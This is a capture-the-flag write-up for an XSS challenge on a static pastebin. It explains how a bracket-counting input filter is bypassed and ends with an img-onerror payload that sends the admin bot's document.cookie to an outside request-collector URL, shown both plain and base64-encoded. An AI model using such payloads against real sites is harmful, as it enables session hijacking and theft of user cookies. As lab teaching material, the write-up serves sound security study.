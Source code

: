 # static-pastebin
This is a typical XSS challenge where we want the bot to visit our pastebin and execute `js` to get the cookie.
## Filters and Network
I tried to input some strings in the pastebin and monitored the network activity. There is no `POST` request and when I check the `url` it had a base 64 string as an argument. This means that all the websites does is encode the string we input then decode it when we need to display it.
So I tried the basic form of XSS
```html
<script>alert('xss')</script>
```
And it didn't show up. So I check the network again and saw a js file that has a filter on the input
```js
function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```
Here's the `clean()` function. It basically counts the amount of `<` and `>` and determin whether to display the text. 
## Bypassing the filter
We can simply bypass the filter by setting the value of `brackets` to `-1` before we enter our script tags so that everything between the script tags get's displayed.
```html
><script>alert('xss')</script>
```
Now we see that the script tags work but the `alert()` doesn't show up due to the value of `brackets`.
## Alternate form of XSS
There are many forms of XSS, including ones that have the script within the angle brackets, for example this one:
```html
><img src=x onerror="javascript:alert('xss')">
```
And surely it worked, now we need to grab the cookie of the admin bot.
## post bin
[Post Bin](https://postb.in/) is a tool that could collect all requests to a certain url and we can grab the `document.cookie` js variable by adding it as an argument.
Heres the final payload
```html
><img src=x onerror="javascript:window.location.assign(`https://postb.in/1593716639876-9019670642446?cookie=${document.cookie}`)">


```
## Flag
I bas64 encoded the string then appended it to the `url` then fed it to the bot. And surely, on my post bin page, I got a request that contains the document cookie which is the flag
```
https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPXggb25lcnJvcj0iamF2YXNjcmlwdDp3aW5kb3cubG9jYXRpb24uYXNzaWduKGBodHRwczovL3Bvc3RiLmluLzE1OTM3MTY2Mzk4NzYtOTAxOTY3MDY0MjQ0Nj9jb29raWU9JHtkb2N1bWVudC5jb29raWV9YCkiPg==
```
```
flag=flag{54n1t1z4t10n_k1nd4_h4rd}
```